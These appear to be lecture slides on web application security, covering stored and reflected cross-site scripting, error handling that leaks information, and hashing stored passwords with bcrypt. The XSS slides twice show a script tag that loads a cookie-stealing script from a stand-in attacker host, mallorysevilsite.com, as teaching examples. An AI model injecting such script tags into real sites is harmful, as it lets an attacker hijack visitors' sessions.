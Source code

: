 ```
I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">
```

Note:
* everyone who loads the page will load that script
* the script will be loaded under the origin news.example.com
* will have access to news.example.com cookies, can steal anyones session!
* Solutions?

-###-

## Cross-site scripting attacks: reflected attack

* Mallory notices that when she searches example.com for "puppies", the following happens:
* She taken to the page example.com/?q=puppies
* She is show a page that simply says "puppies not found!"
* What could happen if Mallory searches for:

```
<script src="http://mallorysevilsite.com/authstealer.js"></script>
```

-###-

## Site design: Error handling

* Consider login controller from minitwit
* Try to view a private GitHub repo in incognito mode

Note:
* with private repos: confidentiality of content and existence
* What if login told you how many characters were wrong?

-###-

## Data storage: Passwords

* Assertion: You (as a server operator) should know a user's password
* Assertion: Your application should know a user's password

-###-

## Data storage: Passwords

* How can they log in?
* Store hashes of the password!
* If you ever click "forgot password" on a site, and they email you back your password, don't trust that site!

Note:
* Need to protect the user passwords in case your database is compromised
* note hash functions in general will be fast to compute
* use bcrypt()!
